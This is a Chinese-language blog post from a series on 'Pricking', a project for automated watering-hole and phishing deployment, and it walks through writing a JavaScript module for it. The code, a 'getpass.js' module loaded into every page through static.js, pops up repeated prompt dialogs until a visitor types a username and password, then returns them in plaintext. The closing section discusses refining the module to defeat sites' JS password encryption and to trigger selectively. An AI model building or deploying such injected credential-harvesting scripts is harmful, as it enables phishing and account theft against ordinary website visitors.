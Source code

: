 ```yaml
---
title: Pricking 项目（二） ：JS模块开发
layout: post
date: '2021-02-18'
permalink: "/archivers/2021-02-18/2"
description:  Pricking 是一个自动化部署水坑和网页钓鱼的开源项目，本文介绍Pricking项目的JS模块开发。
---
```


## 0x00 目录结构介绍


```
.
├── access.log # 日志文件
├── docker-compose.yml # 容器配置文件
├── README.md  # 说明文档
└── static  # 静态文件夹
    ├── index.html # 测试页面
    ├── modules # JS模块目录
    │   └── cookie.js  # cookie相关模块
    ├── README.md  # JS模块文档
    └── static.js  # 主静态文件，会被默认加载到页面中

2 directories, 7 files
```
## 0x01 新建模块 - 窃取凭证

首先用VScode打开项目目录，在modules中新建一个`getpass.js`文件：

![2021-02-18-01-05-16](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/91f74f861a47b14a69d9a40596642ffb.png)

写入代码：

```js
/*
模拟一个对话框
prompt("请输入账号：")

用户输入 账号
用户输入 密码

保存凭证

*/

export function getPassword(u_info, p_info){

    var cert = new Object();
    cert.username = null;
    cert.password = null;

    while(cert.username == null || cert.username == "" ){
        cert.username = prompt(u_info);
    }

    while(cert.password == null || cert.password == ""){
        cert.password = prompt(p_info);
    }

    return cert;
}
```

最后在`static.js`中引入：

![2021-02-18-01-07-02](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/7a4050bb1bbc64687ea77fd0b6482a20.png)


```js
import * as GetPassword from "./modules/getpass.js"
console.log(GetPassword.getPassword("请输入账号：", "请输入密码："));
```

查看站点：

![2021-02-18-01-09-04](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/424eedccafdde55ecbf8152c96b831fe.png)

访问页面就会自动弹出提示框，当完成输入后，控制台会打印明文账号密码。

![2021-02-18-01-10-02](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/4d15d223c8c24d184c4004a20b5801e6.png)

## 0x02 窃取凭证模块的思考

现阶段大部分网站已经解决了明文传输的问题，基本上很多都是通过JS进行加密，这让获取明文密码变得更加“麻烦了点”。

上述演示的模块是在每一个HTTP请求中都会执行，肯定是不友好的，因此可以根据判断页面内容来进行弹出，还需要不断优化。
